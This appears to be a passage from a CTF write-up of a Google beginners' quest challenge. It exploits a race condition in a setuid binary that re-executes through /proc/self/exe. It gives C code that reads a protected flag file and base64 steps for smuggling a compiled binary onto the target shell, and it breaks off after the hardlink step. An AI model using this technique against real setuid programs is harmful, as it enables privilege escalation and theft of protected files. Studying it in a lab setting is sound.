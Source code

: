 Searching for `readlink`, `/proc/self/exe`, and `vulnerability` in Google brings me to a old blog [post](https://blog.cr0.org/2009/07/old-school-local-root-vulnerability-in.html) on CVE-2009-1894.

Like the code of `pulseaudio` in the post, `poetry` is re-executing itself through `/proc/self/exe`, so that the dynamic linker performs all relocation at load-time. Here's the irony—`poetry` is statically linked—it doesn't require the dynamic linker.

Essentially, this challenge is about exploiting a race condition such that when we are reading the symbolic link `/proc/self/exe` through `readlink`; we create a hardlink and thereby control the path to a executable that we want to run; and have `execv` execute that instead. And because `poetry` is `setuid` to `poetry`, we want to run a executable that reads the flag at /`home/poetry/flag`. Let's call it `recite.c` since we are reciting poetry after all.

<div class="filename"><span>recite.c</span></div>
```c
#include <stdio.h>

int main() {
  char flag[20]; // the flag is 19 bytes in size
  FILE *f;
  f = fopen("/home/poetry/flag", "r");
  fgets(flag, 20, f);
  puts(flag);
  return 0;
}
```

There's one small caveat—the online shell doesn't have `gcc`. I've to compile `recite.c` locally, compress it, and transfer it over to the online shell through `base64`.

At the local machine, do the following:

```
# gcc -o recite recite.c
# gzip recite
# base64 recite.gz | tr -d '\n' && echo
```

At the online shell, do the following:

```
$ echo H4sICK...AAA= > recite.gz.b64
$ base64 -d < recite.gz.b64 > recite.gz
$ gunzip recite.gz
$ chmod +x recite
```

I chanced upon another blog [post](https://blog.stalkr.net/2010/11/exec-race-condition-exploitations.html) that documented a method to reliably exploit the race condition—through the file descriptor.

Now that we've set the stage, let's proceed with the exploit.

Create a hardlink to `/home/poetry/poetry`. Let's call it `x` for exploit.

![hardlink](/assets/images/posts/google-ctf-beginners-quest-part-2/959dc85c.png)
